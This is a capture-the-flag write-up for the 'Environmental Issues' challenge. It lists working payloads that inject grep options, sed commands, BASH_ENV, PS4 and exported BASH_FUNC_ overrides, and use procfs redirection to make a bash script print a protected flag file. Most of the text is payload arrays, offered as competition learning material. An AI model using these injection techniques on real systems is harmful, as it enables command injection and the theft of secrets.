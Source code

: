 # Environmental Issues (pwn or misc, depends on who you ask; 6 flags with varying solve counts)

The server greets us with
```
Hello! Send me a json array of [key, val, arg] lists and I will
execute `key=val bash script.sh arg' for each of them. You get
a flag when you have 10, 13, and 15 solutions with unique keys.
You may need to shutdown the input (send eof, -N in nc).
```

Let's address the elephant in the room first. Take a close look at this line
of the script:
```bash
    line="$(grep "${1:?Missing arg1: name}" < issues.txt)"
```

Looks like we can inject grep flags without any environment variables. After
a bit of fiddling, we discover that short options can take an argument without
a space: `-fflag`. This will search the input for the flag (read from the flag file).
We can also combine options. At this point, we see that `-rfflag` works locally,
as it searches the entire current directory for the contents of the `flag` file,
and finds it in the flag file.

However, when we send this to the server, it hits the timeout. This is not too
surprising, as we're searching through the entire filesystem. As an optimization,
we added the `-I` (ignore binaries) and `-F` (search for fixed string) flags.
This lets us get as many points as we need:
```
[
    ["bepis", "bepis", "-rIFflag"],
    ["bepiS", "bepis", "-rIFflag"],
    ["bepIs", "bepis", "-rIFflag"],
    ["bepIS", "bepis", "-rIFflag"],
    ["bePis", "bepis", "-rIFflag"],
    ["bePiS", "bepis", "-rIFflag"],
    ["bePIs", "bepis", "-rIFflag"],
    ["bePIS", "bepis", "-rIFflag"],
    ["bEpis", "bepis", "-rIFflag"],
    ["bEpiS", "bepis", "-rIFflag"],
    ["bEpIs", "bepis", "-rIFflag"],
    ["bEpIS", "bepis", "-rIFflag"],
    ["bEPis", "bepis", "-rIFflag"],
    ["bEPiS", "bepis", "-rIFflag"],
    ["bEPIs", "bepis", "-rIFflag"],
    ["bEPIS", "bepis", "-rIFflag"]
]
```

Unsurprisingly, this lead to the release of a patched challenge, "Regulated
Environmental Issues":
```diff
-    line="$(grep "${1:?Missing arg1: name}" < issues.txt)"
+    line="$(grep -- "${1:?Missing arg1: name}" < issues.txt)"
```

Let's look at the actual environment variables, then:

 - grep prepends `GREP_OPTIONS` to its arguments. When we set `GREP_OPTIONS=Flag`,
   we provide `Flag` as the search pattern, and the argument passed by the script
   turns into the path being searched.
   ```
   ["GREP_OPTIONS","Flag","flag"],
   ```
 - The script checks whether `USE_SED` is set. If so, we can inject sed commands.
   Let's terminate the search command, and then use the `r` command to read the
   flag file. Hide trailing characters with a comment.
   ```
   ["USE_SED","bepis","C/r flag\n#"],
   ```
 - `BASH_ENV` contains a path to a file that is sourced by bash when executing scripts
   (think `.bashrc`). `BASH_ENV=flag` makes bash print the flag to stderr, complaining
   that no such command exists.
   ```
   ["BASH_ENV","flag","bepis"],
   ```
 - `PS4` is the prompt used for tracing with `set -x`. It can contain variable
   and command expansions.
   ```
   ["PS4","`cat flag`","bepis"],
   ```
 - To progress further, we must learn that there is a way to export bash functions
   into the environment:
   ```
   ["BASH_FUNC_grep%%", "() { cat flag; }", "bepis"],
   ["BASH_FUNC_set%%",  "() { cat flag; }", "bepis"],
   ["BASH_FUNC_test%%", "() { cat flag; }", "bepis"],
   ["BASH_FUNC_echo%%", "() { cat flag; }", "bepis"],
   ["BASH_FUNC_bash%%", "() { cat flag; }", "bepis"],
   ```
 - Surprisingly, `return` is not a keyword and can be overwritten too:
   ```
   ["BASH_FUNC_return%%", "() { cat flag; }", "bepis"],
   ```
 - Let's also not forget about the commands executed by the subshell spawned by the
   `quiet` function:
   ```
   ["BASH_FUNC_eval%%", "() { cat flag; }", "bepis"],
   ["BASH_FUNC_exec%%", "() { cat flag; }", "bepis"],
   ```
 - `hash` is executed inside of `silent`, so printing the flag out of there
   is somewhat difficult. I chose to overwrite the `silent` function when `hash`
   is executed, and wait until it's used again at `silent imaginary`.
   ```
   ["BASH_FUNC_hash%%", "() { silent() { cat flag; }; return 1; }", "bepis"],
   ```
 - `cat` is even more problematic, as the entire shell in which it runs has no
   open file descriptors. We need to use procfs:
   ```
   ["BASH_FUNC_cat%%", "() { read flag < flag; echo $flag > /proc/$PPID/fd/1; }", "bepis"],
   ```
   (I am using `read` and `echo` instead of `cat` to avoid recursion. Just now, I have
   realized that `command cat` would also work.)
 - The last one is somewhat tricky, but that whole `imaginary` part of the script
   is makes you realize quite soon that you need to use the command not found hook
   that Ubuntu uses to tell you which apt package you need to install. A quick Google
   later, we obtain the final flag:
   ```
   ["BASH_FUNC_command_not_found_handle%%", "() { cat flag > /proc/$$/fd/1; }", "bepis"],
   ```

(Note that the above timeline is abridged. In reality, we realized how to exploit
the unintended grep issue after we already found 14 legitimate environment variables.)
